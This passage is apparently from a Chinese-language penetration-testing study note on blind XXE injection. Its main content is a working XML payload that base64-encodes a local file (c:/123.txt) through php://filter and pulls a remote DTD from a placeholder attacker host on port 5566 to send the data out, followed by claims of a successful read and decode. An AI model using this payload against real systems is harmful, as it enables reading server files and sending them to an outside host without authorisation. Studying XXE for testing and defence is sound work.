 查看生成的file.txt,成功读取到c盘下123.txt



![image-20240512204457614](D:\Infiltration\笔记\note\图片\image-20240512204457614.png)





###### base64读带空格文件

```
<?xml version="1.0"?>
<!DOCTYPE ANY[
<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=c:/123.txt">
<!ENTITY % remote SYSTEM "http://x.x.x.x:5566/test.dtd">
%remote;
%all;
]>
<root>&send;</root>
```

![image-20240512210414375](D:\Infiltration\笔记\note\图片\image-20240512210414375.png)

成功读取并以base64编码格式



![image-20240512210402383](D:\Infiltration\笔记\note\图片\image-20240512210402383.png)

解码还原

![image-20240512210453021](D:\Infiltration\笔记\note\图片\image-20240512210453021.png)



